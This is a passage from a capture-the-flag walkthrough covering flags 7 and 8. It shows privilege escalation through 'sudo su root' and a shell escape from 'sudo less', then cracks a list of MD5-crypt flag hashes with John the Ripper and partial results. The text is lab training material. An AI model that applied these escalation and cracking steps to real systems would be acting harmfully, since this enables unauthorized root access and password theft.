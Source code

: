 Doesn't quite seem like the exploit we are after but a simple `sudo su root` will get us through.  But hay,  if the sudo permissions are not setup correctly and allow us to sudo su we'll take it.

`flag_7:$1$zmr05X2t$QfOdeJVDpph5pBPpVL6oy0`



The exploit I guess we are after though is with less.

``` bash
# create a file or find an existing one
cd ~/
echo "hacking the thingz" > file.txt

# Open this file with sudo and less
sudo less file.txt

# When less is open type:
!#/bin/bash

# This will take us to a shell as the root user.
# from there we can just su into the root account to get the flag
su root
```





## Flag 8 

>  Gather each of the 7 flags into a file and format it as if each flag was a username and password.
>
>  Crack these passwords for the final flag.

Add all the past flags into a file:

``` bash
flag_1:$1$WYmnR327$5C1yY4flBxB1cLjkc92Tq.
flag_2:$1$PEDICYq8$6/U/a5Ykxw1OP0.eSrMZO0
flag_3:$1$Y9tp8XTi$m6pAR1bQ36oAh.At4G5s3.
flag_4:$1$lGQ7QprJ$m4eE.b8jhvsp8CNbuIF5U0
flag_5:$1$zuzYyKCN$secHwYBXIELGqOv8rWzG00
flag_6:$1$Qbq.XLLp$oj.BXuxR2q99bJwNEFhSH1
flag_7:$1$zmr05X2t$QfOdeJVDpph5pBPpVL6oy0
```

and run `john` to get the passwords.  (Just using the default word lists)

`john flags`

This takes a long time (in the hours) to run against the default rockyou.txt file list but the first couple of password come back in under 2 mins:

``` bash
cyber            (flag_6)
challenge.       (flag_7)
```
